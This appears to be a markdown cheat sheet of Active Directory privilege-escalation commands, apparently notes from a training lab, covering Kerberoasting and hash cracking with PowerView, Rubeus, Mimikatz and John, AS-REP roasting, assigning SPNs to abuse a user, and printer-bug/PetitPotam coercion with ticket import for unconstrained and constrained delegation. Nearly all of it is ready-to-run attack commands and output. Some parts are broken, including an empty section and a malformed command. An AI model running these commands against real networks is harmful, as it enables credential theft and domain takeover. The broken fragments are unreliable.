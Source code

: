 ## Privileges Escalation in AD


### Kerberoasting
```powershell
# Standard AD User. Get Domain Users SPN. Users that are for services
C:> . PowerView.ps1
C:> Get-DomainUser -SPN

# Using AD Module
C:> Get-ADUser -Filter {ServicePrincipalName ne ""$null ""} -Properties ServicePrincipalName
```
#### Using `Rubeus.exe`
```powershell
# Get kerberos stats
C:> Rubeus.exe /stats

# Use Rubeus to request a TGS for <user>
C:> Rubeus.exe kerberoast /user:<user> /simple /outfile:hashes.txt

# Accounts supporting only RC4 (Gives errors!)
C:> Rubeus.exe kerberoast /stats /rc4opsec
C:> Rubeus.exe kerberoast /user:<user> /simple /rc4opsec

# Kerberoast all possible accounts
C:> Rubeus.exe kerberoast /outfile:hashes.txt                  

# Crack with John
C:> john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt
```
#### Using Mimikatz
```powershell
C:> Add-Type -AssemblyNAme System.IdentityModel

C:> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken 
    -ArgumentList "MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local"

# Dump account hashes to a `.kirbi` fileasd@service_asdasd
C:> . .\Invoke-Mimikatz.ps1
C:> Invoke-Mimikatz -Command '"kerberos::list /export"'

# Crack using `tgsrepcrack.py`
C:> python.exe .\tgsrepcrack.py .\<wordlist>.txt .\<exported_file_from_mimikatz>.kirbi
```
### Targeted Kerberoasting AS-REPs
##### Enumerating accounts with Kerberos Preauth disabled
```powershell
# PowerView
C:> Get-DomainUser -PreauthNotRequired -Verbose             
# AD Module
C:> Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
```
##### Disable Kerberos Preauth
```powershell
C:> Set-DomainObject -Identity Control1User -XOR @{useraccountcontrol=4194304} -Verbose
C:> Get-DomainUser -PreauthNotRequired -Verbose    # Check
``` 
##### ASREPRoast : Request Encrypted AS-REP for Offline Brute Force
```powershell


```
### Targeted Kerberoasting Set SPN
With rights over a user, we can set a SPN to it, and then go for a AS-REPs attack.
```powershell
# Enumerate permissions for RDPUsers
C:> Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}

# Check if user already has a SPN
C:> Get-DomainUser -Identity supportuser | select serviceprincipalname

# Set SPN for the user
C:> Set-DomainObject -Identity support1user | Set @{serviceprincipalname='ops/whatever1'}
```

### Kerberos Delegation

#### Uncostrained Delegation
```powershell
# Find Server with Unconstraided Delegation Enabled
C:> . C:\AD\Tools\PowerView.ps1
C:> Get-DomainComputer -Unconstrained | select -ExpandProperty name
<host1>
<host_n>
```
- Requisite for elevation using this technique, is to compromise a user with Admin Rights on the host

#### Printer Bug
```powershell
# Need shell in the server to compromise
# Launch Rubeus listener to capture TGT from DC 
C:> Rubeus.exe monitor /targetuser:<dc-name>$ /interval:5 /nowrap

# From a shell on our host, force DC auth to the server to compromise
C:> MS-RPRN.exe \\<DC_fqdn_name> \\<server_to_compromise_fqdn>
RpcRemoteFindFirstPrinterChangeNotificationEx failed.Error Code 1722 - The RPC server is unavailable.     # This error is OK

# PetiPoam can be user as well
C:> PetitPotam.exe dcorp-appsrv dcorp-dc

# At this point, in Rubeus we got the TGT for DC auth.
# Copy the Base64EncodedTicket and use with Rubeus in a elevated shell from our host
C:> Rubeus.exe ptt /ticket:<Base64EncodedTicket>
[*] Action: Import Ticket
[+] Ticket successfully imported!

# At this point we get a ticket for the DC User
# From here, a DC-Sync attack to DC to get krbtgt and also to enterprise DC.
```
#### Constrained Delegation
```powershell
# Get users with Constraied delegation
C:> . .\PowerView.ps1
C:> Get-DomainUser -TrustedToAuth
```
```powershell
# Request a TGS
C:> C:\AD\Tools\Rubeus.exe s4u /user:websvc /aes256:2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7 /impersonateuser:Administrator /msdsspn:"CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL" /ptt






